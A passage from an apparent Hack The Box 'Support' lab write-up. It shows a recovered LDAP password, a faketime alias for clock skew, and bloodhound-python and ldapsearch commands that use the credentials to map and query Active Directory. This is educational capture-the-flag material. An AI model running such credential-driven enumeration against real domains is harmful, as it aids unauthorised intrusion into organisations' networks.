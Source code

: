 ```bash
┌──(kali@kali)-[~/support.htb]
└─$ python3 decrypt.py                                             
decrypted password: nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

### Bloodhound
To fix any `clock skew` errors I added this to my `~/.zshrc`
```bash
alias sync-ad="faketime \"\$(ntpdate -q support.htb | cut -d ' ' -f 1,2)\" ""
```

Now that we have credentials we can map out active directory relationships with `bloodhound`
```bash
┌──(kali@kali)-[~/sync/server]
└─$ sync-ad bloodhound-python -u 'support' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -dc dc.support.htb -d support.htb -ns 10.10.11.174 -c all --zip
```

Let's run `bloodhound` and upload our `zip` file
```bash
┌──(kali@kali)-[~/sync/server]
└─$ sudo -b neo4j console && bloodhound
```

Through the `Shortest Path to Domain Admins` query the `support` user is needed to establish a `powershell` session on the server

![htb-support-bloodhound](images/HTB-support/htb-support-bloodhound.png)

### LDAP
We can grab detailed information for the `support` user using `ldapsearch`
```bash
┌──(kali@kali)-[~/support.htb]
└─$ ldapsearch -x -H ldap://support.htb -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "CN=SUPPORT,CN=USERS,DC=SUPPORT,DC=HTB"
# extended LDIF
#
# LDAPv3
# base <CN=SUPPORT,CN=USERS,DC=SUPPORT,DC=HTB> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# support, Users, support.htb
dn: CN=support,CN=Users,DC=support,DC=htb
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: support
c: US
l: Chapel Hill
st: NC
```